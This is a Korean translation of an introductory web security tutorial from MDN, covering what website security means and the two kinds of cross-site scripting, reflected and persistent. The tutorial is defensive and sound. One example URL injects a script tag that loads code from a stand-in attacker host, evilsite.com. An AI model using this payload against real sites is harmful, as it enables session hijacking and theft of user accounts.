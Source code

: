웹사이트 보안
-------------

이 문서는 저작자 동의없이 KAIST 대학정보화사업팀을 위하여 [Website Security](https://developer.mozilla.org/en-US/docs/Learn/Server-side/First_steps/Web_frameworks)를 번역 편집하여 작성한 것입니다.

웹사이트 보안은 웹사이트 디자인 및 사용 모든 면에서 주의를 기울여야 합니다. 이 소개 페이지로 웹사이트 보안 전문가가 될 수는 없지만 위협이 어디에서 오고, 가장 일반적인 공격으로 부터 웹 애플리케이션을 강화하기 위해 할 수있는 일을 이해하는 데 도움을 줄 것입니다.

> 선수지식: 기본적인 컴퓨터 지식
>
> 목표: 웹 애플리케이션 보안에 대한 가장 일반적인 위협을 이해하고 해킹 당할 위험을 줄이려면 어떻게해야 할까요?

### 웹사이트 보안이란?

인터넷은 위험한 곳입니다! 종종 서비스 거부 공격으로 웹 사이트를 사용할 수 없거나 홈페이지에 (종종 해를 끼치는) 정보가 수정되었다는 소식을 듣습니다. 잘 알려진 바와 같이 수백만 개의 암호, 전자 메일 주소 및 신용 카드 세부 정보가 공개 도메인에 유출되어 웹 사이트 사용자가 개인적으로 당황하거나 재정적 위험에 노출될 수 있습니다.

웹사이트 보안의 목적은 이러한(또는 어떤) 종류의 공격을 방지하는 것입니다. 웹사이트 보안에 대한 보다 공식적인 정의는 무단 접근, 사용, 수정, 파괴 또는 중단으로부터 웹사이트를 보호하는 행위와 실행입니다.

효과적인 웹사이트 보안을 위해서는 웹 응용프로그램, 웹 서버 구성, 암호 생성 및 갱신 정책, 클라이언트사이드 코드 등 웹사이트 전반에 걸친 설계 작업이 필요합니다. 모든 것이 매우 불길한 것처럼 들리지만 좋은 소식은 서버사이드 웹 프레임워크를 사용하면 보다 일반적인 공격에 대해 견고하고 잘 고려된 방어 메커니즘을 "기본적으로" 활성화할 수 있다는 것입니다. 다른 공격은 웹 서버 구성을 통해 완화할 수 있습니다 (예 : HTTPS 사용). 마지막으로, 명백한 실수가 있었는지 확인하는 데 도움이 되는 공개적으로 사용 가능한 취약성 스캐너 도구가 있습니다.

나머지 부분에서는 몇 가지 일반적인 위협 및 사이트 보호를 위해 취할 수 있는 간단한 단계에 대해 자세히 설명합니다.

> **note** : 웹 사이트 보안에 대한 고려를 시작할 수 있도록 작성된 입문이어서 모든 것에 대하여 설명하지 않습니다.

### 웹사이트 보안 위협

이 섹션에는 가장 일반적인 웹 사이트 위협 요소와 그 완화 방법을 설명합니다. 잘 알려진 바와 같이 웹 응용프로그램이 브라우저가 보내는 데이터를 충분히 신뢰하거나 위협 의도가 없다고 믿었을 때 웹사이트에 대한 위협이 가장 성공적이었다는 것을 보여줍니다.

#### Cross-Site 스크립팅(XSS)

XSS는 공격자가 웹 사이트를 통해 클라이언트사이드 스크립트를 다른 사용자의 브라우저에 주입 할 수있는 공격 유형을 설명하는 데 사용되는 용어입니다. 삽입된 코드는 사이트에서 브라우저로 전송되기 때문에 코드를 <i>신뢰</i>할 수 있어 사용자의 사이트 권한 쿠키를 공격자에게 보낼 수 있습니다. 공격자가 쿠키를 가지면 사용자인 것처럼 사이트에 로그인할 수 있으며 신용 카드 정보에 접근하거나 연락처 정보를 확인하거나 암호를 변경하는 등 사용자가 할 수 있는 모든 작업을 할 수 있습니다.

> **note** : XSS 취약점은 다른 유형의 보안 위협보다 더 일반적으로 발생합니다.

XSS 취약점은 사이트가 삽입된 스크립트를 브라우저에 반환하는 방법에 따라 <i>반향된(reflected)</i> 것과 <i>지속적인(persistent)</i> 것으로 나눌 수 있습니다.

-	<i>반향된</i> XSS 취약점은 서버에 전달된 사용자 컨텐트가 브라우저에 즉시 표시되고 수정되지 않은 상태로 반환 될 때 발생합니다. 새 페이지가 로드되면 원본 사용자 컨텐트의 스크립트가 실행됩니다. 예를 들어, 검색어가 URL 매개 변수로 인코딩되는 사이트 검색 기능에서 결과와 함께 검색어를 표시합니다. 공격자는 매개변수를 포함하는 악성 스크립트로 검색 링크를 구성 할 수 있습니다 (예 : <code>http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js">< script></code>)를 작성하여 다른 사용자에게 전자 메일로 보냅니다. 대상 사용자가 이 "흥미있는 링크"를 클릭하면 검색 결과가 표시될 때 스크립트가 실행됩니다. 앞에서 설명한 것처럼 공격자는 대상 사용자가 사이트에 들어가는 데 필요한 모든 정보를 제공하여 사용자로 구매하거나 연락처 정보를 공유할 수 있습니다.
-	<i>지속적</i> XSS 취약점은 악의적인 스크립트가 웹사이트에 저장되어 다른 사용자가 무의식적으로 실행하여 수정되지 않은 상태로 나중에 이를 다시 볼 때 발생합니다. 예를 들어, 수정되지 않은 HTML이 포함된 커멘트를 허용하는 토론 게시판에 공격자가 보낸 악의적인 스크립트를 저장할 수 있습니다. 커멘트를 보면 스크립트가 실행되어 사용자 계정에 접근하는 데 필요한 정보를 공격자에게 보낼 수 있습니다. 공격자는 피해자와 직접적인 관계가 없기 때문에 이러한 종류의 공격은 매우 인기가 있고 강력합니다.

<code>POST</code> 또는 <code>GET</code> 요청 데이터가 XSS 취약점의 가장 일반적인 소스이지만 브라우저가 렌더링한 쿠키 데이터 또는 업로드되거나 보여진 사용자 파일과 같은 브라우저에서 오는 데이터는 잠재적으로 취약합니다.
